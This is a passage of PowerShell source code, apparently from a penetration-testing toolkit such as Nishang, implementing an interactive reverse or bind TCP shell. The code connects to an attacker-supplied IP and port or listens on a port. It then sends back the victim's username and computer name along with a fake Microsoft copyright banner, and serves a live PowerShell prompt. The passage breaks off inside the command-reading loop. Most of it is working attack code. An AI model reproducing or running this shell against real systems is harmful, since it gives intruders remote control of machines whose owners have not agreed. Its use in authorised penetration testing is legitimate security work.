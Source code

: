 ```bash hl_lines="18 127"
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
```